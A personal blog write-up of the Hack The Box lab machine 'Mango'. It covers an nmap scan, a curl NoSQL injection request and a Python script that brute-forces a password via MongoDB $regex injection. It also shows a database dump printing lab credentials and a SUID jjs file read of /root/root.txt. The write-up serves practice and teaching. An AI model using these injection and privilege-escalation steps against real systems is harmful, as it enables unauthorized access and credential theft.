



# Mango


Mango box was the medium box. It falls under linux and medium category. Especially to get user flag was a quite difficult one. I will explain my path for Mango box from Hack The Box.
<!--more-->

---

# HTB:Mango

Mango box was the medium box. It falls under linux and medium category. Especially to get user flag was a quite difficult one. I’ll approach this write-up how I solved it, along with the problems that I had to face during this box. At first I obtained the user flag by generating the username and password of `admin`user of mongodb. For root, I used `jjs` command line tool to access the root.txt file. I’ll show all my payload(including that didn’t work in initial deployment to get the root).

## Box Details





In above picture IP was 10.10.10.162 and added it to `/etc/hosts` as mango.htb. Let's solve this box.

------------

## Recon

Let's start with our universal port scanner, nmap to see the open port and ports `SSH(22)` `HTTP(80)` and `HTTP(443)` are opened.

```
# Nmap 7.80 scan initiated Tue Jan 21 22:10:40 2020 as: nmap -sS -sC -sV -Pn -oN nmap.txt 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.27s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Enumeration
**mango.htb**

As soon as I saw port 80 opened I visited the site and got output.



So seems like this site wasn't allowed to visit so I checked the `https` of that and got a platform which was alike as google.


Then I looked everypart of the website and got nothing useful but when I checked for certificate of that website and got `staging-order.mango.htb` as new domain.



so I added that to `/etc/hosts` and on visiting that domain I found a login page.


Everytime when I find login page I will try SQL Injection. But here box name suggest mango so database was `mongodb`. To understand more about mongodb visit [here](https://medium.com/better-programming/little-bobby-collections-how-to-write-a-mongodb-injection-ad58a4e2d754). Payload for mongodb requires Nosql Injection. After a lot of search I found an interesting git repo where I got the payload for Nosqli. You can find it [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection).

Now I injected NoSql Payload [$ne] in password field and it was vulnerable to NoSqli as I was redirected to `/home.php` page i.e 302 error.

```bash
root@gr41n73:~# curl -i -X POST http://staging-order.mango.htb/ -d "username=mango&password[\$ne]=^" -s -o /dev/null -v
......
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< location: home.php
< Content-Length: 4022
< Content-Type: text/html; charset=UTF-8
```
So I found the vulnerable point so I made a simple script with NoSql repo as

**Script:**

```python3
import requests
import string

username = 'mango'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username, 'password[$regex]':"^" + payload, 'login':'login'}
                r = requests.post(url, data=post_data, allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 16:
                        print("\nMango password: " + payload)

                        exit(0)
                    break
```

This way I got the password as `h3mXK8RhU~f{]f5H` which was of `mango` user.

## Unprivileged User to Privileged User

Now I tried ssh into mango user with that creds I got mango shell.

```bash
root@gr41n73:~# ssh mango@mango.htb
The authenticity of host 'mango.htb (10.10.10.162)' can't be established.                                                                             
ECDSA key fingerprint is SHA256:AhHG3k5r1ic/7nEKLWHXoNm0m28uM9W8heddb9lCTm0.                                                                          
Are you sure you want to continue connecting (yes/no/[fingerprint])? uyes                                                                             
Please type 'yes', 'no' or the fingerprint: yes                                                                                                       
Warning: Permanently added 'mango.htb' (ECDSA) to the list of known hosts.                                                                            
mango@mango.htb's password:                                                                                                                           
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)                                                                                    
                                                                                                                                                      
 * Documentation:  https://help.ubuntu.com                                                                                                            
 * Management:     https://landscape.canonical.com                                                                                                    
 * Support:        https://ubuntu.com/advantage                                                                                                       
                                                                                                                                                      
  System information as of Sat Apr 18 09:22:51 UTC 2020                                                                                               
                                                                                                                                                      
  System load:  0.0                Processes:            99
  Usage of /:   25.9% of 19.56GB   Users logged in:      0
  Memory usage: 14%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr 18 07:55:54 2020 from 10.10.14.9
mango@mango:~$ whoami
mango
```
Then I searched everypart of the shell but nothing was found over there so only thing I remind was the mongodb so I used it.


### Creds Extraction [Mongodb] 
Now to get the other users creds I searched mongo database with commands.

```
> show dbs
admin   0.000GB
config  0.000GB
local   0.000GB
mango   0.000GB
> use mango
switched to db mango
> show tables
users
> db.getCollection("users").find()
{ "_id" : ObjectId("5d8e25334f3bf1432628927b"), "username" : "admin", "password" : "t9KcS3>!0B#2" }
{ "_id" : ObjectId("5d8e25364f3bf1432628927c"), "username" : "mango", "password" : "h3mXK8RhU~f{]f5H" }
```
After using `admin`/`t9KcS3>!0B#2` user/password. I got the user shell and flag.

```bash
root@gr4n173:~# su admin
Password:
$ python3 -c "import pty;pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/admin$ whoami
admin
admin@mango:/home/admin$ cat user.txt
79bf31c*********************
```

## Root 

Now for root part I upload a simple `LinEnum` in `admin@mango`  machine and run the script. After I lot of searched in the output of that script I found `SUID` files owned by user `admin`

```bash
admin@mango:/home/admin$ ./LinEnum.sh
[-] SGID files:                                                                                                                                       
.........
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

`jjs` tool was owned by user `admin` as it was a tool which is used to invoke the Nashorn engine. You can find detail [here](https://docs.oracle.com/en/java/javase/11/tools/jjs.html).

And for exploit I usually search in [gtfobins.io](https://gtfobins.github.io/gtfobins/jjs/). and I got the exploit for tool `jjs`.

#### jjs Commands 

```bash
admin@mango:/home/admin/$ echo 'var BufferedReader = Java.type("java.io.BufferedReeader");
> ^C
eader");ngo:/home/admin$ echo 'var BufferedReader = Java.type("java.io.BufferedRe
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef********************
jjs>
```

This way I got the root of `mango` box and learned alot from this box. So I would like to thank creator of this box `MrR3boot` for such an awesome box.
	
I will be posting writeup of next box after box retired. I would like to Thank readers for being with me through out this writeup. 

Feedback are really appreciated !!  

Tweet about this writeup if you like.	

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).


